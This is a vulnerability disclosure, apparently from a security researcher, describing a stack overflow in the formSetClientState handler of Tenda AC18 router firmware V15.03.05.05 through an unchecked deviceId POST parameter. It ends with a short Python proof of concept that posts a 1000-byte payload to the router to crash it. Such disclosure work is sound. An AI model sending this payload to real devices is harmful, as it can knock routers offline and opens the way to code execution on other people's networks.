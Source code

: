 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v9` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `deviceId` can trigger this security vulnerability.

![image-20240305223025837](formSetClientState_deviceId.assets/image-20240305223025837.png)

![image-20240305223038098](formSetClientState_deviceId.assets/image-20240305223038098.png)

![image-20240305223056646](formSetClientState_deviceId.assets/image-20240305223056646.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305222933979](formSetClientState_deviceId.assets/image-20240305222933979.png)
